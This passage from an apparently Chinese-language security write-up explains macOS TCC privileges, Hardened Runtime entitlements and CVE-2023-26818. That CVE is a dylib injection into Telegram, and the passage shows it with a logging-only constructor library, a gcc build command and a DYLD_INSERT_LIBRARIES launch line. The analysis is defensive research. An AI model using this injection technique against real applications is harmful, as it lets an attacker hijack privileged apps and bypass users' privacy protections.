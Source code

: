 ```bash
        [Bool] true
    [Key] com.apple.rootless.storage.TCC
    [Value]
        [Bool] true
```

`com.apple.private.tcc.allow`键值下则会存在系统允许的行为，具有访问对应TCC保护对象的属性权限。上图所示"kTCCServiceSystemPolicyAllFiles"属性则是属于TCC最高权限之一，即全磁盘完全访问控制权限，作为管理TCC相关请求的守护进程，必须存在此属性。

当然具有`kTCCServiceSystemPolicyAllFiles`属性的应用并不止有守护进程所持有，macOS系统十分庞大，具有此权限的自带应用并不少见，而这些应用亦是攻击者所特别关注的对象，如果有能力劫持应用的执行流，则可以拥有对应的TCC特权，抑或是控制应用相关未授权的接口或行为达到篡改用户配置文件的行为。

## 三、相关漏洞分析

### 3.1 注入攻击类

`Hardened Runtime`是一种`MacOS`应用程序安全保护和资源访问，用于保护和防止某些漏洞利用。

`com.apple.security.cs.allow-dyld-environment-variables` 是 macOS 中的一项权限，用于控制应用程序是否允许在其运行时设置动态链接器（dyld）环境变量。

`com.apple.security.cs.disable-library-validation` 是 macOS 中的一项权限，用于控制应用程序是否允许禁用对动态链接库（库文件）的验证。

#### CVE-2023-26818 - Telegram Dylib注入攻击

在App Store中上传的Telegram应用程序并没有施加严格的安全措施，可以导致DYLIB注入攻击。

 ![](/attachments/2024-06-12-macos-tcc-bypass/87814a6b-fe3a-4567-8756-d696ba213bb0.png)

根据对应的权限配置的diff，其中删除了`com.apple.security.cs.disable-library-validation`的权限，并启用了Sandbox的安全机制,macOS应用则会根据Application Sandbox的规则进行限制。

 ![](/attachments/2024-06-12-macos-tcc-bypass/fd0c22ed-6be4-4852-85cd-cdd7949cdb28.png)

同时开启了Hardened Rumtime的标志位，因此阻断了通过加载指定DYLIB进行注入。

注入攻击所采用的环境变量为DYLD_INSERT_LIBRARIES。

```c
#import <Foundation/Foundation.h>
__attribute__((constructor))
static void telegram(int argc, const char **argv) {
    NSLog(@"[+] Dynamic library loaded into %@", argv[0]);
}
```

创建如上内容的文件，并使用GCC编译为DYLIB库文件。

```bash
gcc -dynamiclib -framework Foundation telegram.m -o telegram.dylib
```

通过在启动应用之前，控制环境变量DYLD_INSERT_LIBRARIES的值。

```bash
DYLD_INSERT_LIBRARIES=telegram.dylib /Applications/Telegram.app/Contents/MacOS/Telegram
```
